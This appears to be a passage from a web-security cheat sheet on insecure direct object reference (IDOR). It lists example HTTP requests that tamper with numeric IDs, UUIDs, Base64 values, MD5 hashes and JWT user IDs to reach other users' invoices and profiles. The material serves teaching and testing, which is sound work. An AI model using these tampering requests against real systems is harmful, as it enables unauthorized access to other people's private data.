 ### Data Leakage

Exposing sensitive information through object references.

```
# Legitimate request
GET /api/invoices/INV-1337

# IDOR exploit (accessing another user's invoice)
GET /api/invoices/INV-1338
```

## IDOR Parameter Tampering Examples

### Numeric IDs

```
GET /api/users/1337/profile     # Original
GET /api/users/1338/profile     # Tampered

GET /profile?user_id=1337       # Original
GET /profile?user_id=1338       # Tampered
```

### UUIDs and GUIDs

```
GET /api/documents/a1b2c3d4-e5f6-7890-abcd-ef1234567890    # Original
GET /api/documents/f6e5d4c3-b2a1-0987-abcd-ef0987654321    # Tampered
```

### Base64 Encoded Values

```
GET /api/resources?id=dXNlcjoxMzM3    # Decoded: user:1337
GET /api/resources?id=dXNlcjoxMzM4    # Decoded: user:1338
```

### Hashed Values

```
# If using predictable hashing like MD5
GET /api/data?hash=8c97955ebd0b8f31542375c891dc4c4c    # MD5 of "user1337"
GET /api/data?hash=44ffc643c79bd401a40177e207610ca0    # MD5 of "user1338"
```

### JSON Web Tokens (JWT)

```
# If JWT contains user identifiers and isn't properly validated
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMzM3fQ.73tT8P8K_eNLl-h19P2hxP4h0xND9vFVXvd9K4nBGGw

# Tampered JWT with different user_id
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMzM4fQ.QaAp40pdBgeDFshjzFkYY9gzUEQbZTWoUMVNVv5FoFE
```

